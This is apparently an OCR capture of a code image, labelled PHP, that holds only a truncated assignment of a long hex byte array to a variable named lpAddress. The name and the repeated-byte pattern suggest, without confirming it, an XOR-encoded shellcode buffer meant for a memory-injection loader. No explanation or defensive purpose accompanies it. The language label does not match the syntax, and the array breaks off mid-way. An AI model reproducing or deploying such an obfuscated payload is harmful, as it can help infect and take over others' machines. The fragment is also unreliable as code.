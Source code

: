 ```php
lpAddress = [0xBD, 0xBD, 0xBD, 0xBD, 0xBD, 0xBD, 0xBD, 0xBD, 0xBD, 0xBD, 0xBD, 0x38, 0x4C, 0xB0, 0x38, 0x6D, 0xEE, 0x3F, 0xC4, 0xB4, 0xB4, 0x09, 0x6A, 0xF0, 0x38, 0x2C, 0x79, 0xF6, 0x34, 0xE9, 0x89, 0x38, 0xAC, 0x7F, 0x35, 0xD4, 0xB4, 0xB4, 0x38, 0x6D, 0x77, 0xF6, 0xB6, 0x38, 0x6D, 0x78, 0xF6, 0xB6, 0x2B, 0x18, 0xB4, 0xB4, 0xB4, 0x3B, 0x81, 0x81, 0x81, 0x81, 0xEF, 0x4E, 0x38, 0x4C, 0x7D, 0xF6, 0x33, 0xD4, 0xB4, 0xB4, 0xB0, 0xE8, 0xF4, 0xB4, 0xB4, 0xB4, 0xB4, 0xB0, 0xE8, 0xF6, 0x2B, 0x27, 0xA3, 0x1D, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xB4, 0xB0, 0xF8, 0x04, 0x38, 0x89, 0xE3, 0xC3, 0xCA, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xC4, 0xB0, 0xF8, 0x04, 0x38, 0xB3, 0x67, 0xE3, 0x16, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xD4, 0xB0, 0xF8, 0x04, 0x38, 0xB6, 0xD3, 0xB6, 0xA9, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xE4, 0xB0, 0xF8, 0x04, 0x38, 0x89, 0xD8, 0xC7, 0x33, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xB4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xB4, 0x38, 0x4C, 0xED, 0xB5, 0xD4, 0xB4, 0xB4, 0x4C, 0xF4, 0xD4, 0x2C, 0xF8, 0x85, 0x37, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xC4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xC4, 0x38, 0x4C, 0xED, 0xB5, 0xD4, 0xB4, 0xB4, 0x4C, 0xF4, 0xD4, 0x2C, 0xF8, 0x85, 0x37, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xD4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xD4, 0x38, 0x4C, 0xED, 0xB5, 0xD4, 0xB4, 0xB4, 0x4C, 0xF4, 0xD4, 0x2C, 0xF8, 0x85, 0x37, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xE4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xE4, 0x38, 0x4C, 0xED, 0xB5, 0xD4, 0xB4, 0xB4, 0x4C, 0xF4, 0xD4, 0x2C, 0xF8, 0x85, 0x37, 0xB0, 0xEC, 0xFE, 0xB4, 0xB4, 0xB4, 0xB4, 0xB4, 0xB4, 0xB4, 0x6F, 0x14, 0x4C, 0xEC, 0xFE, 0xB4, 0xB4, 0xB4, 0x2F, 0xC0, 0x2C, 0xEC, 0xFE, 0xB4, 0xB4, 0xB4, 0xCC, 0x6C, 0xFE, 0xB4, 0xB4, 0xB4, 0xB6, 0x24, 0xCC, 0x72, 0xB4, 0xB4, 0xB4, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xB4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xC4, 0x4C, 0x79, 0x85, 0x37, 0xD0, 0xD2, 0xF4, 0x5B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xE1, 0xC4, 0x4C, 0xF9, 0x05, 0x37, 0xD0, 0x62, 0x04, 0xE3, 0x60, 0x5B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xE1, 0xC4, 0xE4, 0x79, 0x05, 0x37, 0x4C, 0xE9, 0xF4, 0xCC, 0xE2, 0xE4, 0x4C, 0xE1, 0x4C, 0xF9, 0xED, 0x38, 0xF8, 0x4C, 0xE8, 0xF4, 0xF8, 0xE4, 0xE0, 0xA8, 0x4C, 0xC1, 0xE3, 0x60, 0xE4, 0x79, 0x04, 0x37, 0x4C, 0xD0, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xB4, 0x2C, 0xF8, 0x85, 0x37, 0x4C, 0xE8, 0xF6, 0x4C, 0x69, 0xF4, 0xE4, 0x40, 0x4C, 0xD0, 0x2C, 0xE8, 0xF4, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xC4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xB4, 0x4C, 0x79, 0x85, 0x37, 0xD0, 0xD2, 0xF4, 0x5B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xE1, 0xB4, 0x4C, 0xF9, 0x05, 0x37, 0xD0, 0x62, 0x04, 0xE3, 0x60, 0x5B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xE1, 0xB4, 0xE4, 0x79, 0x05, 0x37, 0x4C, 0xE9, 0xF4, 0xD0, 0x62, 0x64, 0xCC, 0xE2, 0xE4, 0x4C, 0xE1, 0x4C, 0xF9, 0xED, 0x38, 0xF8, 0x4C, 0xE8, 0xF4, 0xF8, 0xE4, 0xE0, 0xA8, 0x4C, 0xC1, 0xE3, 0x60, 0xE4, 0x79, 0x04, 0x37, 0x4C, 0xD0, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xC4, 0x2C, 0xF8, 0x85, 0x37, 0x52, 0x54, 0x2F, 0x2F, 0x2F, 0xB0, 0xEC, 0x00, 0xB4, 0xB4, 0xB4, 0xB4, 0xB4, 0xB4, 0xB4, 0x6F, 0x14, 0x4C, 0xEC, 0x00, 0xB4, 0xB4, 0xB4, 0x2F, 0xC0, 0x2C, 0xEC, 0x00, 0xB4, 0xB4, 0xB4, 0xCC, 0x6C, 0x00, 0xB4, 0xB4, 0xB4, 0xB6, 0x24, 0xCC, 0x72, 0xB4, 0xB4, 0xB4, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xD4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xE4, 0x4C, 0x79, 0x85, 0x37, 0xD0, 0xD2, 0xF4, 0x5B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xE1, 0xE4, 0x4C, 0xF9, 0x05, 0x37, 0xD0, 0x62, 0x04, 0xE3, 0x60, 0x5B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xE1, 0xE4, 0xE4, 0x79, 0x05, 0x37, 0x4C, 0xE9, 0xF4, 0xCC, 0xE2, 0xE4, 0x4C, 0xE1, 0x4C, 0xF9, 0xED, 0x38, 0xF8, 0x4C, 0xE8, 0xF4, 0xF8, 0xE4, 0xE0, 0xA8, 0x4C, 0xC1, 0xE3, 0x60, 0xE4, 0x79, 0x04, 0x37, 0x4C, 0xD0, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xD4, 0x2C, 0xF8, 0x85, 0x37, 0x4C, 0xE8, 0xF6, 0x4C, 0x69, 0xF4, 0xE4, 0x40, 0x4C, 0xD0, 0x2C, 0xE8, 0xF4, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xE4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xD4, 0x4C, 0x79, 0x85, 0x37, 0xD0, 0xD2, 0xF4, 0x5B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xE1, 0xD4, 0x4C, 0xF9, 0x05, 0x37, 0xD0, 0x62, 0x04, 0xE3, 0x60, 0x5B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xE1, 0xD4, 0xE4, 0x79, 0x05, 0x37, 0x4C, 0xE9, 0xF4, 0xD0, 0x62, 0x64, 0xCC, 0xE2, 0xE4, 0x4C, 0xE1, 0x4C, 0xF9, 0xED, 0x38, 0xF8, 0x4C, 0xE8, 0xF4, 0xF8, 0xE4, 0xE0, 0xA8, 0x4C, 0xC1, 0xE3, 0x60, 0xE4, 0x79, 0x04, 0x37, 0x4C, 0xD0, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xE4, 0x2C, 0xF8, 0x85, 0x37, 0x52, 0x54, 0x2F, 0x2F, 0x2F, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xB4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xD4, 0x4C, 0x79, 0x85, 0x37, 0x4C, 0xF8, 0x04, 0x37, 0xE3, 0xD0, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xB4, 0x2C, 0xF8, 0x85, 0x37, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xC4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xE4, 0x4C, 0x79, 0x85, 0x37, 0x4C, 0xF8, 0x04, 0x37, 0xE3, 0xD0, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xC4, 0x2C, 0xF8, 0x85, 0x37, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xE4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xB4, 0x4C, 0x79, 0x85, 0x37, 0x4C, 0xF8, 0x04, 0x37, 0xE3, 0xD0, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xE4, 0x2C, 0xF8, 0x85, 0x37, 0x3B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0xC0, 0xC4, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xD4, 0x4C, 0x79, 0x85, 0x37, 0x4C, 0xF8, 0x04, 0x37, 0xE3, 0xD0, 0x2B, 0xF4, 0xB4, 0xB4, 0xB4, 0x38, 0x4A, 0x50, 0xD4, 0x2C, 0xF8, 0x85, 0x37, 0xA0, 0xEC, 0x42, 0xB4, 0xB4, 0xB4, 0x3D, 0xA0, 0xEC, 0x52, 0xB4, 0xB4, 0xB4, 0xBE, 0xA0, 0xEC, 0x62, 0xB4, 0xB4, 0xB4, 0x51, 0xA0, 0xEC, 0x6F, 0xB4, 0xB4, 0xB4, 0x3D, 0xA0, 0
```